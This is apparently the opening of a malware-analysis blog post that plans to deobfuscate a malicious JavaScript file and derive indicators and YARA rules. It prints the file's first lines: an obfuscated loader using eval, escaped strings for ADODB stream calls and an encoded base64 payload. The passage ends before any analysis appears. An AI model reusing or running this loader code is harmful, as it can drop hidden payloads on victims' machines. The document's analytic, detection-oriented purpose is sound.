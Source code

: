 
## Next Steps

In this blog, we will dive into the technical analysis of this malicious file, focusing on both static and dynamic techniques. Our main goal is to deobfuscate the JavaScript code, extract key Indicators of Compromise (IOCs), and analyse hidden network connections and registry modifications. Additionally, we will develop YARA rules based on the findings to support future detection efforts.


## Analysis of the Malicious JavaScript Code

The first twelve lines of the malicious JavaScript file look like this:


```javascript
String["prototype"].proc = function() { eval(this.toString()); };
String["prototype"]["\x75\x6E\x64\x65\x66\x69\x6E\x65\x64"] = function(xx, xy) {
    var ibz = 0;
    do {
        xx[ibz + 3] = xy[ibz];
        ibz += 1;
    } while (ibz < 3);
};
String.\u0070\u0072\u006f\u0074\u006f\u0074\u0079\u0070\u0065.\u006D\u006F\u0075\u0073\u0065 = {
    mp3: function() {
        var d = "";
        for (var i = 0; i < this.toString().length; i++) {
            d = eval("var cd = this.toString().substr(i, 1);cd;") + d;
        }
        return d;
    }
}.mp3;
var \u006D\u0033\u004D\u006F\u0072\u0059\u006B\u0041\u0064 = [null,
    ("\x43\x72\x65\x61\x74\x65\x4F\x62\x6A\x65\x63\x74" + "txeTdaeR|" + "undefined|" + "\x61\x64\x6F\x64\x62\x2E|" + "noitisoP|teSrahC").split("|").concat("epyT".mouse(), "nepO".mouse())
];

var exp = /{(\d+)}/g; 
var oMut1 = null;
Array.prototype.om0l4d3 = function() {
    var hYiUrF = \u0061\u0072\u0067\u0075\u006D\u0065\u006E\u0074\u0073; 
    return this[0]["replace"](exp, function(k3tTlE0, k3tTlE1) { 
        try {
            return hYiUrF[k3tTlE1];
        } catch (ex) {
            return k3tTlE0;
        }
    });
};

// then the attacker pass the obfucated string to "Array.prototype.s0fStu"

Array.prototype.s0fStu = "{2}mFyIG5lbTQ0Ow0K{2}mFyIGxvbm{2}UZXh0ID0{0}IlVFc0{1}CQlEhPi1DIT4tZ0khPi1Fc0x{1}VmshPi0hPi0hPi0hPi0hPi0hPi0hPi0hPi0hPi0hPi0hPi0hPi0hPi0hPi0hPi0hPi1VIT4tIT4tIT4tIT4tVFVWVVFTMUpUa1l2VFVGT1NVWkZVMVF1VFVhTmtF{1}kx4{1}CE+LVFoZStCL0ljNTZt{1}ml1MXBjZTF1TG5x{2}3JJckkzbV{1}SWm1wb21OVW1SL252alhuUkZSSmpM{2}lBmbVkyWmFjbWF2WThKbkhhTHhyb1pT{1}kp4{2}DNEZGxNMUhYYThoYU5xL0VKV2{1}OMEpTMH{2}1{2}mxNNzhXeGN1cUts{1}V{2}hempaQnVxc2hzYUh5UW{1}L{1}1hDYT{0}1Wml4IT4tZEtmUTNXeUxPNHhLUk{0}3TDEveFhOUmlZSEN{1}UjhjWVpYNz{1}raVpMS1c5{1}HlOV25N{1}1JHOStzU1JvSEpi{2}k1LUy9FU3BUL2cyWFMrTVA5{1}S9iTHhwen{1}zTm0yN2MzOVV3MH{1}HWWVITStIZFchPi10UyE+LXltbEZkQ2MvSmovMEpHMUM4aGNzN0{2}LczYrQk{2}"

// Follow by the remaining code

m3MorYkAd[2] = Array(
    "m3MorYkAd[4]()[m3MorYkAd[1][6]] = 1;m3MorYkAd[4]()[m3MorYkAd[1][7]]();m3MorYkAd[4]()[\"Writ\" + \"e\"](m3MorYkAd[3][1]['nodeTypedValue']);",
```
